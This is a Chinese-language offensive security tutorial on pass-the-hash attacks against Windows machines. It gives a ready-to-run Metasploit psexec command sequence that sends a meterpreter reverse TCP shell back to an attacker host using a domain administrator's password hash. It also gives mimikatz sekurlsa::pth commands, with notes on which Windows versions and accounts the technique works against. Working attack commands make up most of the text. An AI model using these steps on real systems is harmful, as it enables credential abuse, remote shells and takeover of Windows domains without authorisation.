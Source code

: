 ![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR346vWRBKKRHxQ80CDY8xic6bmLTl4qhiagIEmpeOteZ1Ccef87micv8Cg/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**MSF 进行哈希传递攻击 PtH(域)**

当我们获取到了域管理员组内用户的密码哈希值 ，并且该主机的 445 端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用 MSF 进行哈希传递攻击。

**域环境，域管理员组内用户即可**

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.11
msf exploit(psexec) > set rhost 192.168.10.131
msf exploit(psexec) > set smbuser test   #test用户在域管理员组内，注意这里不需要写域前缀
msf exploit(psexec) > set smbpass AADA8EDA23213C020B0C478392B5469F:51B7F7DCA9302C839E48D039EE37F0D1
msf exploit(psexec) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR1Sozd7ibicvo3fXSoNHM1HgcVf94ORicxXYXeP4iaibYxhUgGPw9RJU5GKw/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**mimikatz 进行哈希传递攻击 PtH(工作组)**

*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    
*   Windows Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户 (包括管理员用户但是非 administrator) 也不能使用哈希传递攻击，会提示拒绝访问。
    

```
privilege::debug    #先提权
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希
```

**Windows Server 2003**

本地管理员：

*   administrator
    
*   xie
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRdbz0nWXtMjDic8ibLXvf45lbFY3dPrFNE0bgAolV8b4uPlR79GSHeFnw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRzn28tOhS2q9vAGRqgy8tpCTY6ydI1FTUuOrH4qFliagBu0hicl62rrsg/640?wx_fmt=png)
